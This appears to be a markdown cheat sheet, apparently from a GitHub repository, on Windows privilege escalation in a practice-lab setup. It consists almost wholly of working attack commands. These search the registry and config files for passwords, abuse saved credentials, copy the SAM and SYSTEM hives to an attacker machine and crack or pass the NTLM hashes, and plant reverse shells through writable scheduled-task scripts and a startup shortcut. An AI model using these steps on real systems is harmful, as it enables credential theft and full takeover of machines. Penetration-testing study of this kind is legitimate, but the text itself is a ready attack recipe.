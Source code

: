  ### Passwords
 1. `.\winPEASany.exe quiet filesinfo userinfo` or manually  ` reg query HKLM /f password /t REG_SZ /s` and `reg query HKCU /f password /t REG_SZ /s`
 2. `reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`
 3. `reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s`
 4. `winexe -U 'admin%password123' //TARGETIP cmd.exe` spawn a shell with kali
 5. or `winexe -U 'admin%password123' --system //TARGETIP cmd.exe` for system privilege
 ### Saved Credentials
 1. `.\winPEASany.exe quiet cmd windowscreds`
 2. ` cmdkey /list` to confirm manually  if there arent any saved creds  try `C:\PrivEsc\savecred.bat`
 3. start netcat linstener
 4. `runas /savecred /user:admin C:\PrivEsc\reverse.exe`
 ### Configuration files
1.  `.\winPEASany.exe quiet cmd searchfast filesinfo`
2. Run recursive command manually. Do not run it on C:\ root but on `user directory or admin directory`
3. ` dir /s *pass* == *.config`  and ` findstr /si password *.xml *.ini *.txt`
4.  `winexe -U 'admin%password123' //TARGETIP cmd.exe`

### SAM (Security Account Manager)

1. `.\winPEASany.exe quiet cmd searchfast filesinfo`
2. `copy C:\Windows\Repair\SAM \\MYIP\MYDIRECTORY\` and `copy C:\Windows\Repair\SYSTEM \\MYIP\MYDIRECTORY\` copy the SAM and KEY(SYSTEM) to local kali
3. `git clone https://github.com/Neohapsis/creddump7.git` download from kali
4.  `python2 creddump7/pwdump.py SYSTEM SAM` Run in the location of your copied SAM, SYSTEM file 
5.   `hashcat -m 1000 --force NTLMHASH(2ndpart) /usr/share/wordlists/rockyou.txt` and then use `winexe`.
6.   Or without cracking the hash-> pass the hash
7.   `pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da(ENTIREHASH)' //TARGETIP cmd.exe`


### Scheduled Tasks
1. Check directories that we have not seen
2. `schtasks /query /fo LIST /v` OR Powershell 
3.  `C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1 ` access check  if we can write
4.  start a netcat listener
5.  `echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1` copy our revershell location to script

### Insecure GUI Apps (Some older version)

### Startup Apps 
1. `.\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"` check permissions on the StartUp directory eg (BUILTIN\Users group)
2. create a vb script eg CreatShortCut.vbs in kali and transfer. (Change path accordingly)
```
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start
Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save

```
3. `cscript CreateShortcut.vbs` run the script 
4. Start a listener on Kali, then log in as the admin user to trigger the exploit
